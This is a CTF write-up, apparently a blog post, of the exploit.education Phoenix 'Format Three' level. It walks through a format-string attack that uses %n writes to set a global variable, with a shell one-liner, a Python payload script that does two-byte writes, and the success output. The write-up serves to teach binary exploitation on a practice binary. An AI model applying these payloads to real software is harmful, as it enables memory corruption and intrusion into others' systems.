 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x3"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 3

Write-up for: [https://exploit.education/phoenix/format-three/](Format Three)

<!--more-->

This is the same bug as the previous challenge but now we want to write a specific value to the location of the global variable `changeme`.

The way to write data using the `printf` family of functions is using the format specifier `%n` as demonstrated in the previous challenge. Only this time, we want to write a specific value. For this we only need to change our payload like this (note that format-three takes input from stdin):

```
./format-three < <(python -c 'print "%10x\x08\x04\x98\x44"[::-1] + "%p %p %p %p %p %p %p %p %p %p %p %p" + "%" + str(int(0x64457845 - 0x59)) + "x"  +  "%n"')

```

Basically, we make sure to pop 12 values from the stack (as before) AND we make sure to print 0x64457845 characters before using the `%n` format specifier. We do this by using a prefix to the `%x` specifier, adding a padding to this value.

Running this exploit takes forever since we need to print 0x64457845 characters. Which is a lot. If this were a network-based exploit this would not be feasible at all. We need to find a better approach.

# Improving the exploit

This is not really efficient since we have to write a LOT of bytes. Alternatively, we could try to write 4 single bytes. For this we need to have 4 addresses on the stack that we can use together with the `%n` format specifier.

```python
buf = "\x08\x04\x98\x44"[::-1]  
buf += "AAAA" 
buf += "\x08\x04\x98\x45"[::-1]
buf += "AAAA"
buf += "\x08\x04\x98\x46"[::-1]
buf += "AAAA"
buf += "\x08\x04\x98\x47"[::-1] 
buf += "%c" + "%c"*10 + "%n" 
buf += "%c" + "%n" 
buf += "%c" + "%n" 
buf += "%c" + "%n" 
print buf
```

The idea was to write one byte at a time to reduce the number of characters necessary. While this is generally possible, it will fail here since every write is going to influence subsequent writes. I.e. if for the first byte we need to write `0x65` this means the next byte will be a minimum of `0x66`. Thus, this technique is not applicable here.

However, what we can try is writing 2 bytes at once. We have a similar problem than before because 0x6445 is smaller than 0x7845. However, we can overcome this due to the fact that we always write 4 bytes at once. So even though the second write will be larger than the first write, we can just increase the number so it overflows into the next byte.

                Offset
+5  +4  +3  +2  +1  +0
XX  XX  64  45  78  45

This means we want to write `0x00007845` to the lower two bytes and `0x00016456` to the higher two bytes. `0x16456` is clearly larger than `0x07845`, so we can keep increasing our character count until the second `%n`.

We now only need to figure out the correct offsets (i.e. number of characters to print before each `%n`). The first write is simple. It is `0x7845 - number of bytes in our buffer so far - 10`. The 10 is the number of arguments we provide before hitting the address stored at the beginning of our buffer.

And the second write (found with a little trial and error):
`0x16456 - 0x7845 - 17`

Let's see this in action:

```python
import struct

ADDR = 0x08049844

buf = struct.pack("I", ADDR)
buf += "AAAA" # Add padding between addresses since we can't access arguments directly. This ensures that between the first and second write we can add more padding to control the value we write
buf += struct.pack("I", ADDR + 2)
buf += "%" + str(0x7845 - len(buf) - 10) + "x" + "%c" * 10 + "%n" # Write to lower 2 bytes, address is at the 12th argument position. We don't have the '$' sematic on this machine so we need to provide explicit format specifiers until %n is the 12th one.
buf += "%" + str(0x16456 - 0x7845 - 17) +  "x" + "%n" # Write to upper 2 bytes

print buf
```

First, we put our both target addresses (found via objdump) on the stack. We separate the two addresses with `AAAA` to allow us to put one format specifier between the two `%n` write modifiers. This means, the first address will be the 12th "argument" to printf and the second address will be the 14th. The 13th can be used to alter the second write operation.

Next, we write to the lower 2 bytes (0x7845). This means we need to fill the buffer so that when we hit the `%n` there were exactly 0x7845 bytes written so far. Then we add 10 more 1-byte arguments before the `%n` so that the `%n` pops the correct value off the stack.

Lastly we write 0x(1)6456 to the upper bytes by again padding the print buffer with a single `%x` specifier. The last `%n` will pop the 14th value off the stack (the target address + 2) and write there.

Let's run this exploit:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-three < <(python ~/format-three.py) | tail -n 1
Well done, the 'changeme' variable has been changed correctly!
```

Done! This is a lot better than our first attempt :)

# Afterword

Thinking back to the attempt writing one byte at a time: this would probably work as well using the overflow technique. I'll leave this as an exercise to the reader.

# Additional resources

Concept of two-byte write explained by LiveOverflow: [http://liveoverflow.com/binary_hacking/protostar/format4.html](http://liveoverflow.com/binary_hacking/protostar/format4.html)

